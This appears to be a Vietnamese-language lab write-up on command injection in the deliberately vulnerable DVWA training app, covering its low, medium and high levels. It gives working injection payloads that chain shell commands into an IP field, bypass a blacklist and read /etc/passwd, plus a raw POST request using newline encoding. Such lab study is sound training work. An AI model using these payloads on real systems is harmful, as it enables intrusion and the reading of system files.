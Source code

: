 
# Command Injection - DVWA

## 🛡️ Vulnerability: Command Injection  
Mức độ: **LOW**, **MEDIUM**, **HIGH**

---

## 🔹 LEVEL: LOW

### 📌 Description:
Web cho chúng ta nhập input đầu vào là 1 địa chỉ IP sau đó nó sẽ thực hiện lệnh ping đến địa chỉ IP đó và thực hiện trả về kết quả ở bên dưới
Thực hiện nhập một địa chỉ IP 8.8.8.8 và submit:

Ví dụ: Nhập địa chỉ IP `8.8.8.8` và bấm Submit.
![](images/image1.png)

### 🎯 Goal:
Làm cho server thực hiện các lệnh command ngoài ý muốn thông qua đầu vào.

### 🔍 Phân tích:
- Source code không thực hiện kiểm tra đầu vào.
- Input được đưa trực tiếp vào hàm `shell_exec()`.
- Ta có thể nối nhiều mệnh đề OS command vào bằng các ký tự đặc biệt.

Ví dụ:

```
8.8.8.8; ls /
```

Lúc này câu lệnh thực thi sẽ là:

```
ping -c 4 8.8.8.8; ls /
```

> Kết quả là cả lệnh `ping` và `ls /` đều được thực hiện.

Hoặc kéo dài ra nhiều mệnh đề hơn:

```
8.8.8.8; ls /; cat /etc/passwd
```

---

## 🔸 LEVEL: MEDIUM

### 🔍 Phân tích:
Ở mức này, dev đã **chặn ký tự `;` và `&&`** bằng cách đưa chúng vào **blacklist**.

Tuy nhiên, vẫn còn nhiều ký tự khác giúp nối thêm mệnh đề:

- `|` : chuyển output của lệnh 1 thành input của lệnh 2  
- `&` : chạy lệnh ở background  
- `` `command` `` : thực thi lệnh và trả về output  
- `$(command)` : giống như backtick  
- `||` : logic OR – chạy lệnh thứ 2 nếu lệnh đầu lỗi  

### 🧪 Thực hành:

```
8.8.8.8 & ls / & cat /etc/passwd
8.8.8.8 | ls / | cat /etc/passwd
8.8.8.8a || ls /
```

---

## 🔺 LEVEL: HIGH

### 🔍 Phân tích:
- Hầu hết các ký tự có khả năng nối mệnh đề đều đã bị chặn.
- Hàm `trim()` được dùng để loại bỏ khoảng trắng, gây khó khăn hơn.

Tuy nhiên vẫn tồn tại **lỗi trong blacklist**:

```text
Ký tự bị chặn: "| " (pipe + dấu cách)
```

Vì vậy nếu viết là `|cat`, hoặc ` |cat`, thì sẽ **không bị blacklist chặn**.

Ví dụ:

```
8.8.8.8 |cat /etc/passwd
```

> ⚠️ Đây là lỗi dev sơ suất, không áp dụng cho mọi trường hợp.

---

### 🧪 Cách bypass tối ưu: **Mã hóa xuống dòng**
Sử dụng `%0A` để encode ký tự xuống dòng (`
`), PHP sẽ tự động decode:

Ví dụ gói POST:

```http
POST /vulnerabilities/exec/source/high.php
Content-Type: application/x-www-form-urlencoded

ip=8.8.8.8%0Als+%2F
```

- `%0A` → `
`
- Tác động trực tiếp đến lệnh shell

### ✅ Thực hành giả thuyết:

```
8.8.8.8%0Acat /etc/passwd
```

> ✅ Kết quả: **Giả thuyết đúng**

---

## 📌 Tổng kết

| Mức độ | Kỹ thuật khai thác |
|--------|--------------------|
| LOW    | `;` để nối nhiều command |
| MEDIUM | `|`, `&`, `||`, `` ` ``, `$()` |
| HIGH   | Lỗi blacklist + `%0A` (newline encode) |
